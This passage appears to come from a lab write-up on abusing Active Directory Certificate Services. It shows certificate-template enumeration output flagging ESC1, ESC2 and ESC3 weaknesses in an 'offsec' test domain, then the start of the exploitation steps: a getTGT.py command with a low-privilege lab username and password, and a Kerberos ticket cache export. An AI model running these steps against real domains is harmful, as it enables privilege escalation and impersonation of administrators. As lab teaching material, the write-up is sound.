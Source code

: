 ```plain
Name: SubCA
Schema Version: 1
Enroll Services: offsec-DC01PKI-CA
Vulnerabilities: ESC1 - SAN Impersonation, ESC2 - Any Purpose, ESC3.2 - Use Agent Certificate
msPKI-Certificate-Name-Flag: (0x1) ENROLLEE_SUPPLIES_SUBJECT
[...]

Name: UsersOffsecAD
Schema Version: 2
Enroll Services: offsec-DC01PKI-CA
Vulnerabilities: ESC1 - SAN Impersonation
msPKI-Certificate-Name-Flag: (0x1) ENROLLEE_SUPPLIES_SUBJECT
msPKI-Enrollment-Flag: (0x9) INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
msPKI-RA-Signature: 0
pKIExtendedKeyUsage: Client Authentication
msPKI-Certificate-Application-Policy: Client Authentication
SD Owner: S-1-5-21-497837788-612300594-3587273769-500 offsec\Administrator
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-497837788-612300594-3587273769-519 offsec\Enterprise Admins
      S-1-5-21-497837788-612300594-3587273769-512 offsec\Domain Admins
      S-1-5-21-497837788-612300594-3587273769-513 offsec\Domain Users
  Write Permissions
    Write Owner
      S-1-5-21-497837788-612300594-3587273769-519 offsec\Enterprise Admins
      S-1-5-21-497837788-612300594-3587273769-500 offsec\Administrator
      S-1-5-21-497837788-612300594-3587273769-512 offsec\Domain Admins
    Write DACL
      S-1-5-21-497837788-612300594-3587273769-519 offsec\Enterprise Admins
      S-1-5-21-497837788-612300594-3587273769-500 offsec\Administrator
      S-1-5-21-497837788-612300594-3587273769-512 offsec\Domain Admins
    Write Property
      S-1-5-21-497837788-612300594-3587273769-519 offsec\Enterprise Admins
      S-1-5-21-497837788-612300594-3587273769-500 offsec\Administrator
      S-1-5-21-497837788-612300594-3587273769-512 offsec\Domain Admins
      S-1-5-21-497837788-612300594-3587273769-513 offsec\Domain Users

15:30:21 in certi on  main took 5s
```

### Exploiting the configuration

### Getting TGT ticket

```plain
getTGT.py 'offsec.nl/johndo-lowpriv:Welkom1234' 
```

Make the ticket available for the current session.

```plain
export KRB5CCNAME=johndo-lowpriv.ccache
```
